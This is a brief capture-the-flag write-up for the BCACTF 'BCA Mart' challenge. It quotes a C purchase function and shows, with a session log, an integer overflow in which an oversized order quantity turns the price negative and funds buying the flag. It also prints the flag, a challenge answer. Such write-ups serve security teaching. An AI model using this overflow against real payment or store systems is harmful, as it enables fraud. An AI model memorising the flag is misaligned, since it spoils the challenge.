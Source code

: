 ![question](Screenshot_2.png)
1) `nc bin.bcactf.com 49153`
1) takes us to a store page where we can buy stuff, we only have $15, but the flag costs $100.
1) looking at a snippet of [bca-mart.c](bca-mart.c) 
```
int purchase(char *item, int cost) {
    int amount;
    printf("How many %s would you like to buy?\n", item);
    printf("> ");
    scanf("%d", &amount);

    if (amount > 0) {
        cost *= amount;
        printf("That'll cost $%d.\n", cost);
```
you can tell that you enter an amount of something to buy and it's stored as an int. "cost" is then calculated by multiplying the item cost and the amount you ordered.  
4) We can exploit this to force the cost to be a negative number therefore making our "purchase" give us money. Then once we have the money we can buy a flag.
5) we need to enter an amount that will still be valid, but when multiplied by the cost will go over the 2,147,483,647 threshold to force the sign to flip
6) I attempted to buy 2100000000  BCA merch at $20 each
```
You currently have $3.
What would you like to buy?
> 5   
How many wonderfully-designed t-shirts would you like to buy?
> 2100000000
That'll cost $-949672960.
Thanks for your purchse!

1) Hichew™: $2.00
2) Lays® Potato Chips: $2.00
3) Water in a Bottle: $1.00
4) Not Water© in a Bottle: $2.00
5) BCA© school merch: $20.00
6) Flag: $100.00
0) Leave

You currently have $949672963.
What would you like to buy?
> 6
How many super-cool ctf flags would you like to buy?
> 1
That'll cost $100.
Thanks for your purchse!
bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}
```
7) We got the money and then simply purchased the flag
8) flag: **bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}**
